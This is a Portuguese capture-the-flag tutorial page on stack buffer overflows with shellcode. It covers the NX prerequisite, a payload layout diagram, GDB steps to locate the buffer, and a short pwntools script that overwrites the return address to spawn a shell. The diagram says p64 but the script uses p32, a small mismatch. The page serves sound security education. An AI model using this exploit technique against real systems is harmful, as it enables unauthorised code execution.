

repository: AriiiAlves/CatchTheFox · page: pwning/stack/buffer-overflow/shellcode/index.html · generator: docusaurus

---
title: "Buffer Overflow - Shellcode"
sidebar_position: 3
---

Shellcode é código de máquina enviado como dado e executado pelo programa alvo. **O processador não distingue dados de instruções: se o `rip` apontar para uma página com permissão de execução, ele executa os bytes que estiverem lá**. O nome vem do uso mais comum, que é abrir uma shell.

O ataque consiste em colocar o shellcode no buffer e sobrescrever o endereço de retorno com o endereço do buffer.

**Pré-requisito**: a região onde o shellcode fica precisa ser **executável**. Na stack, isso significa [NX](../../protections.mdx#nx-no-execute-ou-dep-data-execution-prevention) desligado (`NX disabled` / `Stack: Executable` no `checksec`). Com NX ligado, shellcode é impossível e o caminho é fazer [ROP](../rop/index.mdx).

## Montando o ataque

<Mem
  title="Payload com shellcode no buffer"
  top="endereços baixos"
  bottom="endereços altos"
  rows={[
    {addr: 'buf', label: 'NOP sled (0x90 ...)', kind: 'neutral', h: 1.4, note: 'o return address aponta para cá'},
    {label: 'shellcode', kind: 'ctrl', h: 1.6},
    {label: 'padding', kind: 'neutral'},
    {addr: 'rbp+0x8', label: 'p64(buf + margem)', kind: 'danger', note: 'return address'},
  ]}
/>

1. Confirme o overflow e que a stack é executável.
2. Descubra o endereço do buffer. No GDB: `p $rsp`, `x/20gx $rsp` ou `search AAAA` (pwndbg). Com ASLR a stack muda a cada execução, então o endereço precisa ser vazado (em desafios introdutórios o programa costuma imprimi-lo).
3. Payload: `shellcode + padding até o return address + endereço do shellcode`.

```py
from pwn import *

context.binary = ELF('./program')     # define a arquitetura para asm() e shellcraft
p = process()

payload  = asm(shellcraft.sh())           # shellcode
payload  = payload.ljust(312, b'A')       # padding até o return address
payload += p32(0xffffcfb4)                # endereço do buffer

p.sendline(payload)
p.interactive()
```
